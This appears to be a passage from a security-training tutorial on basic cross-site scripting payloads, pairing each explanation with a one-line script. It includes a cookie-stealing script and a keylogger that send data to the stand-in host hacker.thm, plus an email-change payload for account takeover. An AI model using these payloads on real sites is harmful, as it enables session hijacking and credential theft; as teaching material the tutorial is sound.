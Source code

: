 # Basic Payloads

**Proof Of Concept:**

This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:

\


`<script>alert('XSS');</script>`

\


**Session Stealing:**

Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.

\


`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`\


\


**Key Logger:**

The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.

\


`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

\


**Business Logic:**

This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:

\


`<script>user.changeEmail('attacker@hacker.thm');</script>`

\


Now that the email address for the account has changed, the attacker may perform a reset password attack.

\
The next four tasks are going to cover the different types of XSS Vulnerabilities, all requiring slightly different attack payloads and user interaction.
